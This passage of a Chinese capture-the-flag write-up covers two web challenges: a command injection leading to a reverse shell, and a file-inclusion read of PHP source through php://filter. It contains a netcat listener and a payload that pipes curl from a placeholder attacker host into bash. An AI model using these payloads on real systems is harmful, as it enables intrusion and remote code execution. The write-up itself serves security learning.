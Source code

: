 ```bash
nc -lvnp 9999
```

在payload填充

```
girl_friend=curl+http://your_IP/bash.txt+|+bash
```

最后用`find`来寻找真flag。

```bash
$find / -name flag 
/etc/demo/P3rh4ps/love/you/flag

```

拓展：

[文件源码泄漏大全](https://ntwyc2018.github.io/2018/07/06/yuanma/)

[常见的Web源码泄漏漏洞及其利用](https://www.secpulse.com/archives/124398.html)



### 文件探测*

> 知识点：robots、请求头、php伪协议、代码审计、格式化输出注入、session与cookie的关系、真伪随机数

考点很多，这道题还是有点**值得推荐**的。



robots.txt

```
User-agent: *
Disallow: /flag.php
Disallow: /admin.php
Allow: /index.php
```

访问`admin.php`页面说是要本地访问，xff、client-ip什么的都没有用途，可能是用`remoteaddr`的，所以打算先放一下。

据说做BJD的题要一直开着F12，发现回显报文中有hint，指向了`home.php`。进入后指定定向`home.php?file=system`。

试了一下`file=index`，管理员骂骂咧咧地关闭了站点。（不是）发现回显多了个`.fxxkyou`不得不说出题人很素质，为避免伤了我们的心还打上了码。其他类似的我们尝试了`flag`会回显`not now`，`admin`会回显不是管理等等。

试过一段时间后想到有可能是文件包含，那可以试试伪协议，于是/home.php?file=php://filter/convert.base64-encode/resource=system，得到system的源码，home的也得到了，其他被home的业务逻辑限制了。

```php
// system.php
<?php
error_reporting(0);
if (!isset($_COOKIE['y1ng']) || $_COOKIE['y1ng'] !== sha1(md5('y1ng'))){
    echo "<script>alert('why you are here!');alert('fxck your scanner');alert('fxck you! get out!');</script>";
    header("Refresh:0.1;url=index.php");
    die;
}

$str2 = '&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Error:&nbsp;&nbsp;url invalid<br>~$ ';
$str3 = '&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Error:&nbsp;&nbsp;damn hacker!<br>~$ ';
$str4 = '&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Error:&nbsp;&nbsp;request method error<br>~$ ';

?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```
